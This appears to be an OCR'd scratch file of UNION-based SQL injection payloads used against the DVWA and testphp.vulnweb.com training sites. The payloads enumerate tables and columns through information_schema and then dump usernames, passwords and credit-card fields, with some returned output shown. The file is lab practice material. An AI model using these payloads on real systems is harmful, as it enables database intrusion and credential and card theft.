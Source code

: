 
'''
SELECT first_name, last_name FROM users WHERE user_id = ''aaa';
SELECT first_name, last_name FROM users WHERE user_id = '$id';

SELECT first_name, last_name FROM users WHERE user_id = '' UNION select 1,database() #';
SELECT first_name, last_name FROM users WHERE user_id = '' UNION select 1,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'dvwa' #';
SELECT first_name, last_name FROM users WHERE user_id = '' UNION SELECT 1,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users' #';
SELECT first_name, last_name FROM users WHERE user_id = '' UNION SELECT user, password FROM users #';

"SELECT a,b,c FROM items WHERE cat = 1 UNION SELECT 1 # ORDER BY id";

http://testphp.vulnweb.com/listproducts.php?cat=1%20UNION%20SELECT%201,2,3,4,5,6,database(),8,9,10,11#
acuart
group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'acuart' #';
http://testphp.vulnweb.com/listproducts.php?cat=0 UNION SELECT 1,2,3,4,5,6,7,8,9,10,group_concat(table_name) FROM information_schema.tables WHERE table_schema = database() #
artists,carts,categ,featured,guestbook,pictures,products,users
0 UNION SELECT 1,2,3,4,5,6,7,8,9,10,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users' #
address,cart,cc,email,name,pass,phone,uname
0 UNION SELECT 1,2,3,4,5,6,7,8,9,10,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'products' #
0 UNION SELECT address,cart,cc,email,name,pass,phone,uname,null,null,null FROM users #
'''

